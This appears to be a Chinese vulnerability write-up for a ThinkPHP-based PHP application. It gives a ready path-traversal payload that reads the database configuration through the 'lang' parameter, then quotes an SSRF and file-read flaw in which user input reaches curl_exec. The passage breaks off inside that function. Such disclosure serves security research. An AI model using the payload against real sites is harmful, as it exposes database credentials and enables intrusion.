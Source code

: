 **进入到了 /common/controller/Api.php 的loadlang中，直接调用Load函数包含../lang/xxx.php 文件**  
```
/**
* 加载语言文件
* @param string $name
*/
protected function loadlang($name)
{
  $name =  Loader::parseName($name);
  Lang::load(APP_PATH . $this->request->module() . '/lang/' . $this->request->langset() . '/' . str_replace('.', '/', $name) . '.php');
}
```  
  
**所以我们只需要传入lang=../../application/database 即可跨目录读取数据库文件.**  
  
**Payload:**  
```
/index/ajax/lang?lang=../../application/database
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5crzQm1ica4uibkrn9xtfibWnX9ckLBPffwSGiafle58W9YgxF9THia96nMECichzePiayaZBhPHuKzFZjYg/640?wx_fmt=other&from=appmsg "")  
## 0x02 前台任意文件读取+SSRF  
  
**在/api/controller/Ems.php 控制器中的 juhecurl 方法存在Curl_exec函数，并且传参可控，导致前台任意文件读取+SSRF漏洞的产生.**  
```
/**
* 请求接口返回内容
* @param  string $url [请求的URL地址]
* @param  string $params [请求的参数]
* @param  int $ipost [是否采用POST形式]
* @return  string
*/
function juhecurl($url,$params=false,$ispost=0){
  $httpInfo = array();
  $ch = curl_init();
  curl_setopt( $ch, CURLOPT_HTTP_VERSION , CURL_HTTP_VERSION_1_1 );
  curl_setopt( $ch, CURLOPT_USERAGENT , 'Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.22 (KHTML, like Gecko) Chrome/25.0.1364.172 Safari/537.22' );
  curl_setopt( $ch, CURLOPT_CONNECTTIMEOUT , 30 );
  curl_setopt( $ch, CURLOPT_TIMEOUT , 30);
  curl_setopt( $ch, CURLOPT_RETURNTRANSFER , true );
  if( $ispost )
  {
    curl_setopt( $ch , CURLOPT_POST , true );
    curl_setopt( $ch , CURLOPT_POSTFIELDS , $params );
    curl_setopt( $ch , CURLOPT_URL , $url );
  }
  else
  {
    if($params){
      curl_setopt( $ch , CURLOPT_URL , $url.'?'.$params );
    }else{
      curl_setopt( $ch , CURLOPT_URL , $url);
    }
  }
  $response = curl_exec( $ch );
  if ($response === FALSE) {
    //echo "cURL Error: " . curl_error($ch);
    return false;
  }
  $httpCode = curl_getinfo( $ch , CURLINFO_HTTP_CODE );
  $httpInfo = array_merge( $httpInfo , curl_getinfo( $ch ) );
  curl_close( $ch );
  return $response;
```